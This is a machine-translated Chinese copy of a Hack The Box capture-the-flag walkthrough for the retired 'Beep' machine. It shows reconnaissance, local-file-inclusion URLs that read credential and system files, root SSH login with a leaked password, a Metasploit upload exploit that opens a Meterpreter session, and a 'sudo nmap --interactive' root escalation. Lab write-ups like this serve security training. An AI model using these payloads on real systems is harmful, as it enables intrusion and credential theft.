# 保持冷静，黑掉盒子-哔

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

****注**** 。 **只允许报道退役的 HTB 机器。**



**Beep** 被描述为有一个非常大的运行服务列表，这使得找到正确的进入方法有点困难。由于存在许多潜在的攻击媒介，该机器对一些人来说可能有点难以招架

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   [nmap](https://nmap.org/)
*   [zenmap](https://nmap.org/zenmap/)
*   [dirbuster](https://tools.kali.org/web-applications/dirbuster)
*   [searchsploit](https://www.exploit-db.com/searchsploit)
*   [metasploit](https://www.metasploit.com/)

## **步骤 1 -扫描网络**

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获得尽可能多的信息总是更好的。

我将使用 **Nmap** (网络映射器)，这是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来获得我们正在扫描的内容的基本概念

```
nmap -sV -O -F --version-light 10.10.10.7
```

****-sV:**** 探测开放端口以确定服务/版本信息

****-O:**** 启用 OS 检测

****-F:**** 快速模式-扫描比默认扫描更少的端口

****-版本-光:**** 限于最有可能的探测器(强度 2)

****10.10.10。**7**:**T5【哔哔盒子的 IP 地址**

你也可以使用官方的 nmap 安全扫描器 GUI**Zenmap**。这是一个多平台、免费和开源的应用程序，旨在使 Nmap 易于初学者使用，同时为有经验的 Nmap 用户提供高级功能。



我使用一组不同的命令来执行密集扫描

```
nmap -A -v 10.10.10.7
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**10.10.10.7:** 传呼机的 IP 地址

如果您发现结果有点令人不知所措，您可以转到**端口/主机**选项卡，只获取开放的端口。



我们可以看到有 12 个开放的端口:

****港口** 22** 。安全外壳(SSH)、安全登录、文件传输(scp、sftp)和端口转发

****港口** 25** 。简单邮件传输协议(SMTP ),用于邮件服务器之间的电子邮件路由

****港口** 80** 。超文本传输协议(HTTP)。这是 Apache httpd 2.2.3

****港口** 110** 。邮局协议，第 3 版(POP3)

****港口** 111** 。开放网络计算远程过程调用( **ONC RPC** ，有时也称为 **Sun RPC**

****港口** 143** 。互联网邮件访问协议(IMAP)，管理服务器上的电子邮件

****港口** 443** 。基于 TLS/SSL 的超文本传输协议(HTTPS)

****港口** 993** 。TLS/SSL 上的互联网消息访问协议(IMAPS)

****港口** 995** 。TLS/SSL 上的邮局协议 3(POP3S)

****港口** 3306** 。MySQL 数据库系统

****港口** 4445** 。I2P HTTP/S 代理

****港口** 10000** 。Webmin，基于 Web 的 Unix/Linux 系统管理工具(默认端口)

Nmap 找到了相当长的服务列表。目前，运行在端口 80 和 443 上的 Apache 将是主要目标。

## **步骤 2 -枚举目录**

还在扫描侦察阶段，我现在用 **DirBuster** 。DirBuster 是一个多线程的 java 应用程序，旨在暴力破解 web/应用服务器上的目录和文件名。

您可以通过在终端上键入以下命令来启动 DirBuster

```
dirbuster
```

或者通过搜索应用程序



应用程序如下所示，您可以在其中指定目标 URL。在我们的例子中，它将是 **https://10.10.10.7** 。您可以通过单击浏览按钮，从目录/文件列表中选择一个文件



我使用**directory-list-2.3-medium . txt**进行搜索



DirBuster 找到了一个包含几个内容管理系统和开源应用程序的庞大目录列表。有几个漏洞会导致结果中出现外壳。

## **步骤 3 -访问网站**

让我们试试端口 80 并访问 http://10.10.10.7



网站被重定向到 https://10.10.10.7，我们需要向网站添加一个**安全异常**才能继续



我们最终登陆的网站是一个 **Elastix 登录门户**。Elastix 是一个统一的通信服务器软件，它将 IP PBX、电子邮件、即时消息、传真和协作功能结合在一起。它有一个网络界面，包括一些功能，如带有预测拨号功能的呼叫中心软件

IP PBX 是一种将电话分机连接到公共交换电话网(PSTN)并为企业提供内部通信的系统

如果你想了解更多关于 Elastix 的信息，可以看看这里的 [h](https://www.elastix.org/)



我尝试了默认凭据，但似乎不起作用

```
Username: admin
Password: palosanto
```

看一下源代码也没有帮助



我将使用 **Searchsploit** 来检查 Elastix 上是否有任何已知的漏洞。Searchsploit 是一个用于**漏洞数据库**的命令行搜索工具



我使用以下命令

```
searchsploit elastix
```

我们可以看到几个漏洞，但是我们将使用这个命令检查**‘graph . PHP’本地文件包含内容**

```
searchsploit -x 37637.pl
```

我们有一个利用和代码的摘要



LFI 的漏洞利用如下

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

攻击者可以使用**本地文件包含(LFI)** 来欺骗 web 应用程序暴露或运行 web 服务器上的文件。LFI 攻击可能导致信息泄露、远程代码执行，甚至跨站点脚本攻击(XSS)

您也可以检查**漏洞数据库**来查找漏洞



[https://www.exploit-db.com/search?q=elastix](https://www.exploit-db.com/search?q=elastix)

您将得到与终端上相同的结果。如果您导航到**2.0-‘graph . PHP’本地文件包含**，您将会看到对该漏洞的描述



[https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)

如果您还记得从**步骤 2** 开始，目录枚举标记了一个 **vTiger CRM** 。


vTiger CRM 是一个集成的客户关系管理(CRM)应用程序，可以在内部网或通过浏览器从互联网上使用。它是在免费许可下发布的

如果你想了解更多关于 vTiger CRM 的信息，你可以看看这里的

你也可以在这里阅读更多关于 Elastix 和 vTigerCRM 的整合

## **步骤 4 -尝试 elastix LFI 漏洞利用**

让我们导航到

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```



https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action

如果你不能阅读任何东西，你可以通过检查源文件来美化文件



view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action

我找到密码 **jEhdIekWmdjE**

如果你还记得从**步骤 1** 开始，nmap 扫描将**端口 22** 标记为打开，让我们在上面试试新发现的密码

## **步骤 5 -连接到 SSH**

让我们用下面的命令连接到 SSH

```
ssh root@10.10.10.7
```

我试了密码，然后就进去了！



## 步骤 6 -查找 root.txt 标志

我现在可以寻找第一个标志， **root.txt**



我使用以下命令来检查我在这台机器上是谁

```
whoami
```

我有这台机器的超级用户权限。我得到了力量！

我使用下面的命令来检查我在机器上的位置

```
pwd
```

我在/根和通过做

```
ls
```

我找到 root.txt 文件了！为了读取文件的内容，我使用了以下命令

```
cat root.txt
```

现在我们有了根标志，让我们找到用户标志！

## 步骤 7 -查找 user.txt 标志

我需要通过执行以下操作导航回主目录

```
cd home
```

然后我列出所有的文件/文件夹，看到有一个名为 **fanis** 的文件夹

我使用导航到此文件夹

```
cd fanis
```

而当我列出文件/文件夹时，可以看到 **user.txt** 文件！



为了读取文件的内容，我使用了以下命令

```
cat user.txt
```

恭喜你。你找到了两面旗子！

* * *

> 信息调查结果的变化

## **步骤 3b -访问网站**

让我们导航到

```
https://10.10.10.7/vtigercrm/
```



https://10.10.10.7/vtigercrm/

我们可以看到应用的版本: **vTiger CRM 5.1.0**

我将使用 Searchsploit 来检查 vTigerCRM 上是否有任何已知的漏洞



我使用以下命令

```
searchsploit vtiger
```

我们可以看到几个漏洞。我用这个命令检查本地文件包含

```
searchsploit -x 18770.txt
```

我有一个利用和代码的摘要



LFI 漏洞如下

```
/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

您也可以检查漏洞数据库来查找漏洞



您将在终端上得到相同的结果。如果您导航到 **vTiger 5.1.0 -本地文件包含**，您将会看到对该漏洞的描述



## **步骤 4b——围绕 vTiger Asterisk 默认凭证进行更多调查**

让我们导航到

```
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```



https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00

如果你不能阅读任何东西，你可以通过检查源文件来美化文件



view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00

我还对 vTiger 的默认凭证做了一些研究，并找到了一些关于安装 T2 vTiger 星号连接器 T3 的文档



[https://www.vtiger.com/docs/asterisk-integration](https://www.vtiger.com/docs/asterisk-integration)

如果我们将前面的 URL 修改为

```
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00
```

我导航到这个页面(使用源代码美化输出)



https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00

我找到密码 **jEhdIekWmdjE**

您可以从那里继续**步骤 5**

* * *

> 使用 Metasploit、meterpreter、nmap - interactive 和 Burp 的变体

## **步骤 3c -访问网站**

我们知道应用程序的版本是 **vTiger CRM 5.1.0**

我们将使用 **Metasploit** ，这是一个渗透测试框架，使黑客攻击变得简单。这是许多攻击者和防御者的必备工具


[https://www.metasploit.com/](https://www.metasploit.com/)

我在 Kali 上启动 **Metasploit 框架**,并寻找我应该用来启动漏洞利用的命令



我发现了一个有趣的有效载荷，3 号

```
exploit/multi/http/vtiger_soap_upload
```

这是对该漏洞的描述

> vTiger CRM 允许用户在请求 SOAP 服务时绕过身份验证。此外，还可以通过 AddEmailAttachment SOAP 服务上传任意文件。通过结合这两种漏洞，攻击者可以上传并执行 PHP 代码。该模块已在 Ubuntu 10.04 和 Windows 2003 SP2 版的 vTiger CRM v5.4.0 上成功测试。


[https://www.exploit-db.com/exploits/30787](https://www.exploit-db.com/exploits/30787)

我使用以下命令来利用漏洞

```
use exploit/multi/http/vtiger_soap_upload
```

在利用漏洞之前，我需要设置几个选项



我首先用下面的命令设置 **RHOSTS**

```
set RHOSTS 10.10.10.7/32
```

我设置了 SSL 和 T2

```
set SSL true
```

和

```
set RPORT 443
```

我运行了这个漏洞，但是这次我需要用

```
set LPORT 10.10.14.10
```

以下是所有命令的总结



我检查了选项


我用命令运行漏洞利用

```
run
```

我得到这个错误消息



我用以下命令设置了代理

```
set proxies http:127.0.0.1:8080
```

我再次检查选项



我运行了漏洞攻击，但是我得到了一个新的错误消息



我用这个命令设置它

```
set ReverseAllowProxy true
```


我还需要设置**打嗝**来代理这个漏洞。

Burp Suite 是一个基于 Java 的网络渗透测试框架。它已经成为信息安全专业人员使用的行业标准工具套件。Burp Suite 有助于识别漏洞并验证影响 web 应用程序的攻击媒介

你可以在官网[这里](https://portswigger.net/burp)了解更多

打开 Burp，并在目标>范围>目标范围>包括在范围>编辑中将目标设置为网站



我在 **Metasploit** 上运行漏洞利用，然后回到**打嗝**。我可以看到 Burp 拦截了请求



我将截取选项设置为**关**



回到 **Metasploit** ，我终于得到了一个 **Meterpreter** 会话

从[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)网站上，我们得到了对 Meterpreter 的定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)



## 步骤 4c -查找 user.txt 标志

我导航到**根目录**来找到主文件夹。然后，我使用

```
cd home
```

您可以使用以下选项列出文件/文件夹

```
ls -la
```

我找到一个名为 **fanis** 的文件夹。让我们看看里面有什么

```
cd fanis
```



我列出了所有文件/文件夹，并找到了 **user.txt** 标志。为了读取文件的内容，我使用了以下命令

```
cat user.txt
```

现在我们有了用户标志，让我们找到根标志！

## 步骤 5c -查找 root.txt 标志

我不能访问根文件夹，但是我可以用命令创建一个 **shell**

```
shell
```


如果我在机器上检查我是谁，我得到


如果你做了

```
sudo -l
```

您可以看到许多 **NOPASSWD** 命令，它们可以引导我们找到 root



Nmap 的旧版本(2.02 到 5.21)有一个交互模式，允许用户执行 shell 命令。由于 Nmap 位于以 root 权限执行的二进制文件列表中，因此可以使用交互式控制台以相同权限运行 shell

让我们用下面的命令试试看

```
sudo nmap --interactive
```


以下命令将给出一个提升的 shell。你可以在这里阅读更多关于伯恩外壳的内容

```
!sh
```

我在机器上检查我是谁，我有根权限


我现在可以导航到根目录



我找到了 **root.txt.txt** 文件！

为了读取文件的内容，我使用了以下命令

```
cat root.txt
```

恭喜你。你找到了两面旗子！

* * *

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

别忘了# **GetSecure** ，# **BeSecure** ，# **StaySecure** ！

* * *

****其他黑盒子文章****

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   保持冷静，黑掉盒子

